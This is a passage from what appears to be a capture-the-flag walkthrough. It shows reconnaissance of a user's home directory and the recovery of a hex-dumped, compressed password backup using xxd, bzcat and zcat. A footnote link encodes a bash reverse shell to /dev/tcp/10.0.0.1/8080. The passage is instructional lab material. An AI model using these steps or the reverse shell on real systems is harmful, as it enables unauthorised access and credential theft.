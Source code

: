 	export TERM=xterm

### Reconnaissance of /home/floris

```bash
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area/
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup	// other group read permission
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```

	cat password_backup 
	
```bash
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

### Work with hexdump in fast shared memory

Note: ippsec uses /dev/shm in his walkthrough. You might not want to do this in real life. [^4]

	cp password_backup /dev/shm
	cd /dev/shm

	xxd -r password_backup > 1
	
```bash
BZh91AY&SY���H���A��P)ava�:4N���nT#�@%�` ▒
                                          ��z�@�i�4hdi���9�h�Q�dh▒���4i�5n▒�׌��Jh��*��}y.�<~�x�>�sVT�zH�ߢ�1�V�3�`F���"��n�
     ۇ7j:X�dR��k�� ���)p�7;����9��P▒C�Y�P       �HB��*  ��G� �U@r�rE8P����H
```
	
	file 1
	bzcat 1 > 2
	
`l[password�r�BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{��ೱ��]��B@�6�m��`
	
```bash
file 2
zcat 2 > 3
```


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency